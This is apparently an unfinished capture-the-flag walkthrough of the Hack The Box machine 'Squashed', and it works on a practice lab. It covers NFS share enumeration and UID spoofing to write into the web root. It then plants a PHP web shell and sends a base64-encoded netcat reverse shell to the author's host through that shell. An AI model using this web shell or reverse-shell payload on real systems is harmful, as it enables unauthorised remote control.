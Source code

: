 ```yaml
---
title: "HTB Squashed"
date: 2022-12-12T18:22:03-05:00
draft: false
---
```


First we will start with an nmap scan.

```bash
sudo nmap -sC -sV -p- -T4 -oN nmap/squashed.nmap $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-12 18:20 EST
Nmap scan report for 10.129.40.85
Host is up (0.041s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42597/tcp   mountd
|   100005  1,2,3      49332/udp6  mountd
|   100005  1,2,3      57441/tcp6  mountd
|   100005  1,2,3      58098/udp   mountd
|   100021  1,3,4      34613/udp6  nlockmgr
|   100021  1,3,4      34643/tcp   nlockmgr
|   100021  1,3,4      43627/tcp6  nlockmgr
|   100021  1,3,4      58073/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs_acl  3 (RPC #100227)
34643/tcp open  nlockmgr 1-4 (RPC #100021)
42597/tcp open  mountd   1-3 (RPC #100005)
43229/tcp open  mountd   1-3 (RPC #100005)
47523/tcp open  mountd   1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.17 seconds
```

A lot of information is returned from our nmap scan, but port 2049 looks interesting. It is a NFS share, lets check it out!

```bash
showmount -e $IP

Export list for $IP:
/home/ross    *
/var/www/html *
```

Awesome we can see a users home folder & the web root directory!
Now lets try and mount them, and see what information we can gather.

```bash
sudo mount -t nfs 10.129.40.85:/home/ross /mnt/squashed -o nolock

cd /mnt/squashed && ls -la

drwxr-xr-x 14 1001 1001 4096 Dec 12 18:19 .
drwxr-xr-x  3 root root 4096 Dec 12 18:35 ..
lrwxrwxrwx  1 root root    9 Oct 20 09:24 .bash_history -> /dev/null
drwx------ 11 1001 1001 4096 Oct 21 10:57 .cache
drwx------ 12 1001 1001 4096 Oct 21 10:57 .config
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Desktop
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Documents
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Downloads
drwx------  3 1001 1001 4096 Oct 21 10:57 .gnupg
drwx------  3 1001 1001 4096 Oct 21 10:57 .local
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Music
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Pictures
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Public
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Templates
drwxr-xr-x  2 1001 1001 4096 Oct 21 10:57 Videos
lrwxrwxrwx  1 root root    9 Oct 21 09:07 .viminfo -> /dev/null
-rw-------  1 1001 1001   57 Dec 12 18:19 .Xauthority
-rw-------  1 1001 1001 2475 Dec 12 18:19 .xsession-errors
-rw-------  1 1001 1001 2475 Oct 31 06:13 .xsession-errors.old

```

Great, now if we run the `tree` command we can see all the files in the directories.

```bash
tree
.
├── Desktop
├── Documents
│   └── Passwords.kdbx
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

8 directories, 1 file
```

interesting this *Passwords.kdbx* file looks interesting!

This is a KeePass file used to store passwords, but it is encrypted, and trying to use `keepass2john` fails... oh well lets move forward.

lets take a look at the www share. we can mount it using the same command as before, but replacing the directory

Once in the share it seems we arent able to access anything, but it show everything being owned by the user id *2017* and group *www-data*

```bash
drwxr-xr--  5 2017 www-data  4096 Dec 12 19:00 www
```

we can abuse this and gain access to the contents of the folder by creating a user and changing their user id

```bash
sudo useradd pwnd

sudo usermod -u 2017 pwnd

sudo su pwnd -c bash
```

Now lets see if we can access the /var/www/html file share.

```bash
pwnd@kali:/mnt$ cd www
pwnd@kali:/mnt/www$ ls -la
total 56
drwxr-xr-- 5 pwnd www-data  4096 Dec 12 19:10 .
drwxr-xr-x 4 root root      4096 Dec 12 18:53 ..
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 css
-rw-r--r-- 1 pwnd www-data    44 Oct 21 06:30 .htaccess
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 images
-rw-r----- 1 pwnd www-data 32532 Dec 12 19:10 index.html
drwxr-xr-x 2 pwnd www-data  4096 Dec 12 19:10 js
pwnd@kali:/mnt/www$
```

Awesome! now that we have access to the web root lets put a simple php shell on the site!

```bash
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > pwnd.php
```

Navigating to the website we can see that the shell worked!

{{< image src="static/Pasted image 20221212181527.png" alt="Initial WebShell" position="center" style="border-radius: 8px;" >}}

Now that we have command execution, lets go for a reverse shell.

I will use the mkfifo shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/
and base64 encode it.

After base64 encoding the reverse shell we should have a string that looks like this
`bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK`

Now lets see if we catch a shell.

Before we run our reverse shell we must stat a listener

```bash
nc -lvnp $port
listening on [any] $port ...
```

navigating back to the site, and using our payload put (you must replace the b64 encoded string with yours):

`/pwnd.php?cmd=echo bWtmaWZvIC90bXAvbG9sO25jIDEwLjEwLjE0Ljg4IDEzMzcgMDwvdG1wL2xvbCB8IC9iaW4vc2ggLWkgMj4mMSB8IHRlZSAvdG1wL2xvbCAK | base64 -d | bash`

Looking back at our listener you should see this:

{{< image src="static/Pasted image 20221212183603.png" alt="RevShell" position="center" style="border-radius: 8px;" >}}

Cool! now we have a shell on the box!

*you can upgrade your shell using* 

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

***I will have to finish this post later***
